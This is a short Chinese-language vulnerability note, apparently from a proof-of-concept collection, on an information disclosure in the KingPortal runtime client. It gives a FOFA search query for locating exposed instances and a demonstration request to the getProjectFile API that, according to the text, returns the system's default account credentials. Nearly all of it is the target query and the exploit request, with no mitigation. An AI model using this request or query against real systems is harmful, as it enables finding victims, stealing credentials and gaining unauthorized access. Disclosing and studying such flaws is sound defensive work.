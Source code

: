# KingPortal 运行系统客户端存在信息泄露

```
FOFA:
"KingPortal" && title=="KingPortal 运行系统客户端"
```

## 介绍

KingPortal 运行系统客户端存在信息泄露漏洞, 当访问特定 API 的请求时, 会返回对应的系统安装默认账号密码

## 演示

```
http://ip//getProjectFile?projectInfo={%22name%22:%22externalconfig%22,%22type%22:5}&_=1708943932003 
```

![image-20240226194027202](./assets/image-20240226194027202.png)


